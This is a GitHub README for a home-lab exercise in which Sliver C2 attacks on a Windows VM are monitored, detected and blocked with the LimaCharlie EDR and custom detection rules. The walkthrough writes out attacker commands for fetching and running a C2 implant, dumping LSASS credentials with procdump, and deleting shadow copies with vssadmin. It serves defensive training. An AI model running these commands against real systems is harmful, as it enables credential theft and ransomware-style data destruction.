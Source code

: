 <h1>Endpoint Detection and Response</h1>

 
 <h2>Description</h2>
In this Project, attacks are simulated using a virtual Windows and Linux machine and the attacks are monitored, detected and blocked using the Endpoint Detection and Response agent called LimaCharlie. Special Thanks to Eric Capuano.<br />


<h2>Languages and Utilities Used</h2>

- <b>PowerShell</b> 
- <b>Command Line</b>
- <b>Sliver</b>
- <b>Sysmon</b>
- <b>LimaCharlie</b>
- <b>Secure Shell(SSH)</b>
- <b>Python</b>

<h2>Environments Used </h2>

- <b>VMware Workstation Pro 17</b>
- <b>Windows 11 Enterprise</b>
- <b>Linux Ubuntu(Server Version)</b> 


<h2>Project walk-through:</h2>

The setup for the VM environment consists of many steps.  For the detailed steps, a link is provided to Eric Capuano's blog <b>So you want to be a SOC Analyst?(Part1)</b> <a href=https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-part>here</a>

The Summary of the VM Environment is as follows:
A.  Establishment of a Windows Virtual Machine with Windows Defender disabled/suppressed and
    and Sysmon installed. Sysmon will provide telemetry through LimaCharlie which is also installed
    on the Windows VM.

B.  Linux Virtual Machine (Ubuntu Server Version) with Sliver Command and Control framework installed.
    Sliver will be used to deliver malware to the Windows VM.

<p align="left"><b>Attack & Monitor</b><br/>

1.  In Linux Machine:
    Drop into root shell and change directory to Sliver location--> cd /opt/sliver

2.  Launch Sliver C2 Agent-->sliver-server

     ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/df71e29b-f3c4-4ca1-a42d-ce608735378f)

3.  Generate C2 session payload with Sliver using Linux Machine’s IP address obtained during the establishment of the Virtual Machines mentioned above.

     --> generate --http  Linux IP Address --save /opt/sliver

    ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/5bdaed61-3a37-45bc-b754-ec40db806e76)

    Note that MASSIVE_DEPRESSIVE.EXE is the payload/implant name in my case.

4.  Within the opt/sliver directory, we use the following python script to execute a temporary server
    --> python3 -m http.server 80

5. Switch over to Windows Virtual Machine while server is established in Linux Machine
   and launch an Administrative PowerShell console

6. Within the Administrative Powershell Console we run the following command to simulate
   the downloading of the C2 payload from the Linux Attacker Machine.
   
   --> IWR -Uri http://Linux IP/payloadname.exe -Outfile C:\Users\User\Downloads\payloadname.exe

7.  Now that the payload has been downloaded on the Windows Machine, we can execute the Command
    and Control Session as an attacker through the Linux Machine.
    
   a.  Using the SSH session on the Linux server We will relaunch Sliver with command --> sliver-server
   
   b.  Then we start the listener with -->http

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/a84825cd-e9e8-4a03-9b60-08006dc91fff)

8.  Switching over to the Windows Machine, we then execute the payload with the following command using Admin Powershell Prompt:
    --> C:\Users\User\Downloads\<your_C2-implant>.exe
    Note that the established session is shown on the Linux Machine as shown below.

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/6c9c5a86-cfa2-431a-849a-1277643ca12a)

Various attacks can be done through the established session. However, we will proceed to monitoring and detecting this attack in
the Lima Charlie tool.

9.  We can now look for our attack in the Lima Charlie web application. Please note that Lima Charlie was configured after
    the establishment of the virtual machines. The detailed steps are in the link above.

    --> Sensor List
        --> Hostname(windev2305eval.localdomain)

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/a7849e22-66e5-4caa-a8e5-988e51a4e759)


    From here we navigate to -->processes and we find our malware "MASSIVE_DEPRESSIVE.exe"
    Note that there is no green check mark indicating a signature for the malware. A lack of signature can indicate a malicious
    process.


  ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/985161fa-1ac7-46d6-8db9-a11361fb13d6)


  Navigating just below Processes to --> Network we can see the malware and its source IP and other information.


  ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/fd77e80b-4e11-4adf-a06a-296534ed5bfc)


  Below the Network we may go into -->File System and search for the malware's file path.


![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/9631c089-114f-4ba9-9d1a-71fe5bd3a79a)


In the same left menu, we can click on Timeline and monitor near real-time telemetry of the host system.  We can find the
event and its processes and the time of its processes.


![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/dfffca45-e5a7-44be-ae0a-436923b90d1d)


_________________________________________________________________________________________________________________________________________________________

<p align="left"><b>Attack & Detection</b><br/>

Now we will attack the Windows VM and detect the attack with a detection rule.

1.  First we reestablish the Sliver malware's attack session with the Windows VM
    and look for the privileges we have on the Windows machine through the C2 agent.
    ---> use[session id]
         -->getprivs
      And we check for "SeDebugPrivilege" which allows for privilege escalation in attacks.

    ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/e34dfa4d-7b5b-4512-95b8-6826f36f8f8a)

2.  We will use an attack that threat actors use for stealing credentials from a system.
 Using the command -->procdump -n lsass.exe -s lsass.dmp
We can find the attack in the Timeline section in Lima Charlie by filtering Sensitive Process Access

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/6a40730c-c45f-4ec5-9274-48ca26c92740)

3. Now we will write a detection rule through Lima Charlie.
   Clicking on the event opens an event panel with information.
   To enter a detection rule, we click on the box shown below
   ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/5a58c133-5493-4b7e-84c5-a5bb4d81763e)

   In the "Detect" box we remove the previous detection contents from the box and entering our rule
   --> event: SENSITIVE_PROCESS_ACCESS
       op: ends with
       path: event/*/TARGET/FILE_PATH
       value: lsass.exe

       The above specifies detecting an event of SENSITIVE PROCESS ACCESS with the process having lsass.exe.


        In the "Respond" box we add --> - action: report
                                         name: LSASS access
   
 This will prompt Lima Charlie to provide a detection report upon detection. Click Save and name the rule.

![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/6262f2c7-3cfa-47d2-9448-1c1ca642c8b5)

4.  We can now test our detection rule by returning to the Sliver server console, back into the C2 session, and rerunning the same
    procdump command as before.

    In Lima Charlie, we go back to sensors then Detections in the left side menu.

    ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/9686c222-967d-4536-a6bd-fa9be8c3c942)

    As seen above, the attack was detected!
____________________________________________________________________________________________________________________________________________________________________________

<p align="left"><b>Attack & Block</b><br/>
  Deletion of Volume Shadow Copies is a popular attack connected with ransomware.  In this section, we
 will perform the above mentioned attack and block it upon detection using Lima Charlie.

1.  First we restart our Sliver C2 session with the victim machine following the steps in the above sections.

2.  Run command -->shell
    Answer yes to question “This action is bad OPSEC, are you an adult?”

    ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/329ab9f8-9c82-4789-9fe1-062aa669021a)

3.  Run command -->vssadmin delete shadows /all

4.  Run command -->whoami

    ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/6915f891-700b-4902-95d0-964faf27c7aa)

5.  Now we look into Lima Charlie Detections as before. Lima Charlie detects the attack through Sigma Rules.

   ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/c24fc0c8-453e-40e3-8308-6dbc171a8ce6)

6.  We can view the event in the Timeline and view the pane on the right to access the rule options.

   ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/2e890a52-217b-404d-8efb-e57f251d9f04)

7.  Writing D&R rules:
    In Respond Box Enter--> - action: report
                               name: vss_deletion_kill_it
                             - action: task
                               command:
                             - deny_tree
                             - <<routing/parent>>
    Name and Save the rule.

    ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/c4e4e8ae-c9a7-4f86-a021-92ff14158510)


    Note that "action: report" generates the detection report and the "action: task" will deny the parent process or kill the execution
    of the attack.

8.  Test the block rule by going back to the Linux VM Sliver-server shell and repeating the command-->vssadmin delete shadows /all

     ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/e201afbd-13b5-4e3f-86c4-5b7ae82825bb)

    Then we run our whoami command.
 
   ![image](https://github.com/4cysec/Endpoint-Detection-and-Response/assets/149924544/e4c0e9d0-5f57-44b9-9385-6709dfae48b2)

   We can see that the shell was automatically terminated. The block rule was successful!



    
<!--
 ```diff
- text in red
+ text in green
! text in orange
# text in gray
@@ text in purple (and bold)@@
```
--!>
